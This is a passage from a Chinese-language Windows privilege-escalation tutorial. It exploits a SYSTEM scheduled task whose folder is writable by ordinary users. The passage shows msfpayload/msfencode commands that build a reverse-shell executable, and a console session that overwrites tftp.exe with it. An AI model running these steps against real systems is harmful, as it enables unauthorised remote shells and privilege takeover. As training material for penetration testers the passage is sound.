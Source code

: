 可以清楚地看到，这里有一个很严重的配置错误，对于这个计划任务来说，根本不需要使用SYSTEM的权限来运行，更糟糕的是，任何经过身份验证的用户都对这个文件夹有写入的权限。从渗透测试的合约来说，到了这一步我只需要生成一个木马，做一个后门（同时要保证它会完美的运行）就可以了，但是作为本次教学的例子，我们可以简单的用木马覆盖掉“tftp.exe”：

```
root@darkside:~# msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' O
        Name: Windows Command Shell, Reverse TCP Inline
      Module: payload/windows/shell_reverse_tcp
    Platform: Windows
        Arch: x86
 Needs Admin: No
  Total size: 314
        Rank: Normal
 Provided by:
   vlad902 &lt;vlad902@gmail.com&gt;
   sf &lt;stephen_fewer@harmonysecurity.com&gt;
 Basic options:
 Name      Current Setting  Required  Description
 ----      ---------------  --------  -----------
 EXITFUNC  process          yes       Exit technique: seh, thread, process, none
 LHOST     127.0.0.1        yes       The listen address
 LPORT     9988             yes       The listen port
 Description:
   Connect back to attacker and spawn a command shell
 root@darkside:~# msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' R | msfencode -t
 exe &gt; /root/Desktop/evil-tftp.exe
 [*] x86/shikata_ga_nai succeeded with size 341 (iteration=1)
```

现在剩下的事就是上传我们的恶意文件，覆盖掉"E:GrabLogstftp.exe"，一旦做完了就早点睡觉，防止因为猝死而看不到弹回来的shell。这里要注意的是，别忘了检查一下要入侵的计算机的时间和时区。

```
C:Usersuser1Desktop&gt; dir
  Volume in drive C has no label.
  Volume Serial Number is 948D-A98F
  Directory of C:Usersuser1Desktop
 02/19/2014  01:36 AM    &lt;DIR&gt;          .
 02/19/2014  01:36 AM    &lt;DIR&gt;          ..
 04/22/2013  09:39 AM           331,888 accesschk.exe
 02/19/2014  01:31 AM            73,802 evil-tftp.exe
 01/25/2014  12:46 AM            36,864 fubar.exe
 01/22/2014  08:17 AM    &lt;DIR&gt;          incognito2
 06/30/2011  01:52 PM         1,667,584 ncat.exe
 02/18/2014  12:38 PM            14,336 wlbsctrl.dll
 11/22/2013  07:39 PM             1,225 wmic_info.bat
                6 File(s)      2,125,699 bytes
                3 Dir(s)      75,341,824 bytes free
 C:Usersuser1Desktop&gt; copy evil-tftp.exe E:GrabLogstftp.exe
 Overwrite E:GrabLogstftp.exe? (Yes/No/All): Yes
         1 file(s) copied.
```

[![](https://p5.ssl.qhimg.com/t0178df24cf781b6ffa.png)](https://p5.ssl.qhimg.com/t0178df24cf781b6ffa.png)
